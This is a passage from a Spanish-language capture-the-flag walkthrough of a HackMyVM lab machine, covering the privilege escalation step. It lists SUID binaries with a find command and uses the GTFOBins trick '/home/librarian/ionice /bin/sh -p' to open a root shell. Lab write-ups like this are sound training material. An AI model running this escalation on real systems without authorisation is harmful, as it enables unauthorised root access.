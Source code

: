 Una vez actualizada la tty, vamos a escalar privilegios, ya que ya hemos leido la flag user.txt

Si buscamos archivos con permisos SUID veremos un archivo que llama la atención:

```bash
www-data@video-club-margarita:/home$ find / -perm /4000 -type f 2>/dev/null
/home/librarian/ionice
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chsh
/usr/bin/umount
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/gpasswd
```
Tenemos el archivo ionice con permisos SUID, es el que usaré para escalar privilegios.

Como de costumbre me dirijo a la web [https://gtfobins.github.io/gtfobins/ionice/](https://gtfobins.github.io/gtfobins/ionice/)

![](/assets/images/HMV/Videoclub-HackMyVM/gtfobins.webp)

Ejecutamos el comando que nos indica la web:

> `/home/librarian/ionice /bin/sh -p`

Y ya somos root y ya podemos leer la flag root.txt!!!

![](/assets/images/HMV/Videoclub-HackMyVM/root.webp)

_Agradecimientos a Shelldredd por esta máquina_

